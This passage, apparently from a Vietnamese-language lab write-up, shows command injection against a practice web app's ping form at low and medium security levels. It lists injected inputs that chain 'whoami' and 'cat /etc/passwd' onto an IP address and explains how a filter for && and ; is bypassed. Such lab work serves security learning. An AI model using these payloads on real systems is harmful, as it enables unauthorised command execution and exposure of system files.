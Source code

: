 ```bash
127.0.0.1; whoami; cat /etc/passwd
```

<img width="1536" height="609" alt="image" src="https://github.com/user-attachments/assets/2d161c62-0f02-41c8-95dd-c9054fc042ac" />

Nhập payload: 

```bash
127.0.0.1 && whoami && cat /etc/passwd
```

<img width="1533" height="640" alt="image" src="https://github.com/user-attachments/assets/f6a81eeb-9b15-41ff-ad65-222851201a4e" />

Nhập payload:

```bash
232.23.23.23 || cat /etc/passwd
```

<img width="1541" height="641" alt="image" src="https://github.com/user-attachments/assets/53d08ac9-0ce3-41b4-8d45-427d1bb1e75f" />

---

## 2. COMMAND INJECTION (MEDIUM)

Kiểm tra source PHP:

<img width="1542" height="698" alt="image" src="https://github.com/user-attachments/assets/49a9969a-6999-4608-bea5-7a834c4db948" />

&rarr; Có thể thấy hệ thống đã thực hiện thêm lọc bỏ hai ký tự đặc biệt là: && (để nối lệnh) và ; (dùng để kết thúc một câu lệnh và viết thêm lệnh mới). Tuy nhiên hệ thống không lọc các ký tự khác như: | (pipe), &, backsticks `command`, $(command), || (hoặc).

&rarr; Do đó vẫn tồn tại lỗ hổng Command injection.

Nhập payload: (Chạy lệnh trước ở mức nền, sau đó chạy tiếp lệnh whoami)

```bash
127.0.0.1 & whoami
```

<img width="1538" height="544" alt="image" src="https://github.com/user-attachments/assets/bfe85426-8b7d-40eb-955c-cf61b9611c4c" />

Nhập payload: (ping output sẽ được chuyển thành input cho whoami, và bạn sẽ thấy output từ whoami):

```bash
127.0.0.1 | whoami
```

<img width="1538" height="636" alt="image" src="https://github.com/user-attachments/assets/0baae3db-16c4-4144-9a8e-9be42539da10" />

Nhập payload: 

```bash
127.0.0.1 $(whoami)
```
